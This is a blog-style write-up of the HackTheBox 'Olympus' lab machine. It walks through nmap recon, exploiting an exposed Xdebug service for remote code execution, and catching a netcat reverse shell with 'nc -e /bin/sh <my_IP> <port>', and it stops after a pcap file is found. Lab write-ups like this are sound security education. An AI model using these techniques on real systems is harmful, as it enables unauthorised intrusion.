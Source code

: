 ```yaml
---
published: true
---
```


<center><h1><b>HackTheBox Olympus Writeup</b></h1></center>

This is a writeup for the machine olympus from HackTheBox and also my first security blogpost.<br>
  **Lets get started** 

## Step 1: Initial Recon<br>

So now lets perform a nmap scan on the host ip which is 10.10.10.83. The nmap command is given below:<br>
    `nmap -sC -sv -oA default -n 10.10.10.83`
<br>The scan output from nmap is shown below:<br>
![1](https://fir3wa1-k3r.github.io/imgs/olymupus_1.png)

As we see it has 3 open ports and one filtered port.

`22/tcp		filtered	ssh`<br>
`53/tcp		open		domain`<br>
`80/tcp		open		http`<br>
`2222/tcp	open		ssh`<br>

Here the port 22 is being filtered which means that nmap is unable to find out whether the port is open or not. And port 53 which has to be using UDP protocol is now using TCP, there is something fishy here, lets get to it later.
Here is the image from the website when we check out the http service on the host
<br>
<p align="center">
  <img width="460" height="500" src="https://fir3wa1-k3r.github.io/imgs/olympus_2.png">	
</p>

And concurrently when we run gobuster for directory bruteforcing that resulted in the `index.php` page which is the redirection to the original homepage.<br>
After performing a stego analysis on the images i found nothing. Then i jumped to analyse the response from the web server.Then by looking into the header `Xdebug: 2.5.5`, we can get to know that Xdebug is enabled in the server, which can allow remote debugging facility for developers.<br>
> For more info about XDebug check [here](https://xdebug.org/docs/).

<p align="center">
  <img width="656" height="398" src="https://fir3wa1-k3r.github.io/imgs/olympus_3.png">	
</p>

Hence we can utilize this service to get initial foothold in the machine. The service can be exploited by sending the specially crafted http request to the server to connect back to port 9000. Then we can get Remote Code Execution using the eval function in php.

> For more information about exploiting the Xdebug service please visit [here](https://paper.seebug.org/397/)

<p align="center">
  <img width="1000" height="255" src="https://fir3wa1-k3r.github.io/imgs/olympus_4.png">	
</p>

We can also see that the `XDEBUG_SESSION` cookie is being set by the server and it enable us to utilize the feature of remote debugging. Hence we can potentially exploit the service using eval funtion.<br>

<p align="center">
  <img width="656" height="398" src="https://fir3wa1-k3r.github.io/imgs/olympus_5.png">
</p>

I have written a simple python script which sends the payload to the server which then executes code. Now we have RCE(Remote Code Execution) on the server.

<p align="center">
  <img width="750" height="273" src="https://fir3wa1-k3r.github.io/imgs/olympus_6.png">
</p>
As we enumerate through the web server we see that it doesn't have python installed. So one of the way to get a shell is through netcat in which the -e switch is allowed in this machine. We received a low privileged shell using the following command:<br>
`nc -e /bin/sh <my_IP> <port>`<br>
After enumerating for a some time i found user zeus on the box. So i navigated to the users' home directory. Then i found a file called captured.pcap in `/home/zeus/airgeddon/captured/` directory.Then transfered that file into my machine using base64 transfer technique (will be breifly introducing the methods to transfer files in the upcoming posts). By doing a `file` command on the .cap file we see the following output:<br>
<p align="center">
  <img width="900" height="18" src="https://fir3wa1-k3r.github.io/imgs/olympus_7.png">
</p>